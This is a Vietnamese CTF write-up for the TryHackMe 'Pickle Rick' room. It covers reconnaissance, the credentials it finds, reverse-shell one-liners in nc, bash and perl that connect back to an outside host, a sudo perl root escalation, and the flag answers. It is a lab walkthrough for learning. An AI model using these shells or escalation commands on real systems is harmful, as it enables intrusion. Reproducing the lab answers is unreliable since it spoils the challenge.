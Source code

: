 Pickle Rick
===

Link: https://tryhackme.com/room/picklerick

---
## Mục lục <a name="menu"></a>

* [Mục lục](#menu)
* [Thu thập thông tin](#info)
* [Xác định lỗ hổng bảo mật](#vuln)
* [Tiến hành xâm nhập](#exploit)
* [Kết quả](#result)

---
## Thu thập thông tin <a name="info"></a>

Đầu tiên, mình tiến hành scan tổng quan 1000 port tcp, udp đầu, kết quả như sau:

![](https://i.imgur.com/ocJcJhw.png)

![](https://i.imgur.com/9QS3tsU.png)


Tất cả các port UDP đều đã bị filtered, TCP có 2 port đang mở:
* Port-22: OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (SSH)
* Port-80: Apache httpd 2.4.18 (HTTP)

Tiếp theo, mình tiến hành truy cập vào http://10.10.145.37:80 , xem qua front và source code thì mình tìm được username do admin để lại để ghi nhớ:

![](https://i.imgur.com/5o4bsMd.png)

> Username: R1ckRul3s

Giờ ta cần tìm password và 1 cổng đăng nhập để có thể tiến hành lấy shell và nâng câp quyền. Mình sẽ dùng gobuster để crawl trang tìm chỗ đăng nhập:

![](https://i.imgur.com/P1EHeIs.png)

Sau 1 lúc, mình crawl ra được trang login và phát hiện 1 chuỗi kí tự như password ở file robots.txt:

![](https://i.imgur.com/NjQkKWA.png)

> Password: Wubbalubbadubdub

![](https://i.imgur.com/cOZOwS8.png)

Thử dùng username với password tìm được để đăng nhập vào cổng thì thành công và vào được 1 command panel (shell cơ bản):

![](https://i.imgur.com/SCqXWh9.png)

Xem như các thông tin cần thiết đã có đủ, mình sẽ tiến tới xác định lỗ hổng và exploit.

---
## Xác định lỗ hổng bảo mật <a name="vuln"></a>

Nhập thử vài câu lệnh shell cơ bản vào cái command panel, mình thấy shell này rất hạn chế, nó không cho mình cd đi chỗ khác:

![](https://i.imgur.com/ycfuea6.png)

Phải tìm cách khác để có được shell mạnh hơn. Mình sẽ thử kiểm tra xem server có dùng python, bash, nc, ruby hay perl không:

``` 
which bash; which nc; which python; which perl; which ruby
```

![](https://i.imgur.com/NkuVCsB.png)

Kết quả cho thấy server có dùng bash, perl và nc. Do đó, mình sẽ tiến hành xâm nhập bằng cách tạo kết nối ngược từ server về máy mình(reverse shell) và sau đó tìm cách lấy quyền root.

---
## Tiến hành xâm nhập <a name="exploit"></a>

Trước khi dùng reverse shell, máy chúng ta phải lắng nghe connection tại 1 port bất kì trước đã (port > 1000), mình sẽ dùng nc để lắng nghe ở port 8089, câu lệnh như sau:

```
nc -vnlp 8089 
```

Sau đó, mình lần lượt thử các reverse shell nc, bash, perl:

```
* nc -e /bin/sh 10.0.0.1 1234
* bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
* perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

*(Nguồn: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)*
*(lưu ý: thay đổi ip và port phù hợp)*

Trong 3 cái chỉ có perl là có tác dụng và tạo được kết nối ngược từ server về máy mình, cho mình quyền user cơ bản 'www-data' : 

![](https://i.imgur.com/jBjR6f6.png)

Tới đây, mình sẽ nâng cấp quyền quản trị lên thành root để tiện hơn vì user hiện tại có shell rất hạn chế, câu lệnh sử dụng như sau: 

```
sudo perl -e 'exec "/bin/sh";'
```

*(Nguồn: https://gtfobins.github.io/gtfobins/perl/#sudo)*

Mình đã thành công lấy được quyền root:

![](https://i.imgur.com/WQeiHOY.png)

Cuối cùng, chỉ việc look around files system để tìm ra các ingredients.

---
## Kết quả <a name="result"></a>

First ingredients: var/www/html/Sup3rS3cretPickl3Ingred.txt

```
mr. meeseek hair
```

Second ingredients: /home/rick/second ingredients

```
> 1 jerry tear
```

Final ingredients: /root/3rd.txt

```
> fleeb juice
```
